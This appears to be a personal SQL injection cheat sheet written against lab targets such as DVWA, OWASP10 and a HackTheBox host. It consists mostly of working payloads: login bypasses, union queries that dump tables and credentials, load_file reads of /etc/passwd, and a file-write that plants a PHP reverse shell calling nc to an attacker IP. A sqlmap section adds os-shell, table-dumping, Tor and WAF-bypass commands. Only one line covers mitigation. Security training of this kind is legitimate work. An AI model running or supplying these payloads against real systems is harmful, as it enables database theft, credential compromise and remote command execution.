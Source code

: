 # SQL Injection

## Types
- MySQL
  - Error Based
    - ```'``` & ```"``` & ```\``` & ```)``` & tilda
  - Blind 
    - Boolean
      - True: ```id=1" and 1=1--```
      - False: ```id=1" and 1=2--```
      - Other
        - ```id=1' and 1=1--+```
        - ```id=1' and 1=1#```  
    - Time Based
      - ```id=1' and sleep(5)--```
      - ```id=';waitfor delay '0:0:5'--```

## Payloads
```
a' or '1'='1
a' or '1'='1'%23
a' or 1=1%23
a'%09or%09'1'='1
a'or'1'='1
a'/**/or/**/'1'='1
2 or 1=1
2%0Aor 1=1
` desc %23
IF(0,name,age)
' or 1=1#
' or 1=1--
' or 1=1 LIMIT 1 #
2 union all select * from users
```

## Tips
- True statement: ```aNd 1=1``` & ```aNd 21=21``` & ```orDeR bY 1```
- False statement: ```dNd 0=1``` & ```anD 9=2``` & ```ordEr bY 1000000000000```
- Space: ```+``` & ```/**/``` & ```%20```
- Comment: ```/*``` & ```//``` & ```;//``` & ```#``` & ```%23```

## Exploit
- Login
  - username: ```admin'#``` 
  - password: ```1' or 1=1#``` 

- Data Extracting 
  - Seleting database version, Database, user
    - ```?page=user-info.php&username=z' union select 1,database(),user(),version(),5%23``` 
  - Database tables 
    - ```... union select 1,table_name,null,null,5 from information_schema.tables``` 
    - ```... union select 1,table_name,null,null,5 from information_schema.tables where table_schema='owasp10'``` 
  - Table Columns
    - ```... union select 1,column_name,null,null,5 from information_schema.columns where table_name='accounts'``` 
  - Selecting data from table 
    - ```... union select 1,username,password,is_admin,5 from accounts``` 
  - Reading files
    - ```... union select null,load_file('/etc/passwd'),null,null,null``` 
  - Writing files
    - ```UniOn selEct null,[file content] inTo outfile '/location/to/write/file/to' /*``` 

- Shell upload 
  - Payload 
    - ```?page=user-info.php&username=z' union select '<?passthru("nc -e /bin/sh 10.20.14.208 8080");?>',null into outfile '/tmp/reverse.php'``` 
  - Listen on attacker machin:
    - nc -vv -l -p 8080
  - Run backdoor
    - ```10.20.14.211/dvwa/vulnerabilities/fi/?page=../../../../../tmp/reverse.php```

## Mitigation
- Use parametrized statements, separate data from sql code


## SQLMAP
- Commands
  - ```sqlmap --help```
  - ```sqlmap -u [target url]```
  - ```sqlmap -u [target url] --os-shell```
  - ```sqlmap -u [target url] --sql-shell```

- Login page
```
sqlmap -u https://admin-portal.htb/login.php --form --dbs
sqlmap -u https://admin-portal.htb/login.php --dbms=mysql --data "email=test@test.nz&password=pass"
sqlmap -u https://admin-portal.htb/login.php --dbms=mysql --data "email=test@test.nz&password=pass" --dbs
sqlmap -u https://admin-portal.htb/login.php --dbms=mysql --data "email=test@test.nz&password=pass" -D admin --tables
sqlmap -u https://admin-portal.htb/login.php --dbms=mysql --data "email=test@test.nz&password=pass" -D admin -T users --columns
sqlmap -u https://admin-portal.htb/login.php --dbms=mysql --data "email=test@test.nz&password=pass" -D admin -T users --dump
```

- Advanced Switches
  - Level
    - ```--dbs --level 5```
  - Risk
    - ```--risk 3```
  - POST 
    - ```sqlmap -u “http://testfire.net/login.jsp” --form --dbs``` 
  - Technique
    - ```techniques=B --dbs```
    - ```B``` => Blind Boolean
    - ```T``` => Blind Time-based
    - ```E``` => Error-based
    - ```U``` => Union
  - Tor
    - ```--tor```
  - Shell
    - ```sqlmap -u “...” --sql-shell```
    - ```sqlmap -u “...” --os-shell```
  - WAF Bypass 
    - Path: /usr/share/sqlmap/tamper 
    - ```--tamper=space2dash, hex2char --dbs```
